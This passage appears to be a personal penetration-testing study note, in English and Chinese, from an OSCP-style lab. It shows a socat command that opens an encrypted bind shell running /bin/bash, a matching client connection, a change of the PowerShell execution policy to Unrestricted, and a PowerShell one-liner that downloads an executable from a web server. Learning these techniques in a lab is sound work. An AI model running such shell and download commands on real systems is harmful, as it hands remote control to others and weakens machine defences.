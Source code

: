 #### 2. Create socat listener
Now let's create the encrypted socat listener
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
> `cert=bind_shell.pem`: 使用 bind_shell.pem 中的證書和私鑰來進行加密通訊\
> `verify=0`: 不驗證對方的certificate，允許所有連接\
> `fork`: 當每個新連接，fork 出一個child process來處理，允許多個連線

**(Bob Mode)**
- Alice IP: 10.11.0.4
```
socat - OPENSSL:10.11.0.4:443,verify=0
```
![image](https://hackmd.io/_uploads/ByVghyiUC.png)
> Bob 成功控制 Alice 電腦

## Powershell And Powercat
Windows powershell is a task-based command line shell and scripting language.\
The default policy is "Restricted".\
We'll need to set an "Restricted" execution policy on our windows client.\
● Set the execution policy to unrestricted
```
PS C:\Windows\system32> Set-ExecutionPolicy Unrestricted

執行原則變更
執行原則有助於防範您不信任的指令碼。如果變更執行原則，可能會使您接觸到 about_Execution_Policies 說明主題 (網址為 https:/go.microsoft.com/fwlink/?LinkID=135170)
中所述的安全性風險。您要變更執行原則嗎?
[Y] 是(Y)  [A] 全部皆是(A)  [N] 否(N)  [L] 全部皆否(L)  [S] 暫停(S)  [?] 說明 (預設值為 "N"): Y
```
● Verify the execution policy has been updated
```
PS C:\Windows\system32> Get-ExecutionPolicy
Unrestricted
```
### – Powershell File Transfers
We’ll transfer the windows version of WGET from Alice to Bob using Powershell.

Copy WGET.EXE to our webroot
```
sudo cp /usr/share/windows-resources/binaries/wget.exe /var/www/html
```
```
sudo systemctl start apache2
```

(Powershell)
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{localIP}/wget.exe','C:\Users\{wget.exe Path}')"
```
![image](https://hackmd.io/_uploads/Sk_svOKDC.png)
> ??
